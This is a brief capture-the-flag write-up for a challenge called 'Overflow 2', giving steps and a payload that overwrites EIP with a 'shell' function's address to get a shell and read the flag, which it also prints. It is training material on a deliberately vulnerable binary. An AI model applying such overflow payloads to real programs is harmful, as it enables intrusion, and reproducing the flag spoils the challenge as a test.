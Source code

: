 #Overflow 2 - 70
This problem has a buffer overflow vulnerability! Can you get a shell? You can solve this problem interactively here, and the source can be found here.

## Solution (with interactive solver)
1. Find the address of the function we want to call using `objdump -d overflow2 | grep "shell"`

2. Covert that into it's little endian and then printable values `\xad\x84\x04\x08`

3. Fill up the buffer until you've filled the eip register with the address you want to call `\xad\x84\x04\x08\xad\x84\x04\x08\xad\x84\x04\x08\xad\x84\x04\x08\xad\x84\x04\x08\xad\x84\x04\x08\xad\x84\x04\x08\xad\x84\x04\x08\xad\x84\x04\x08`

4. This gives us root, so then it's a case of `ls` and `cat flag.txt`

5. Giving us the flag `controlling_%eip_feels_great`
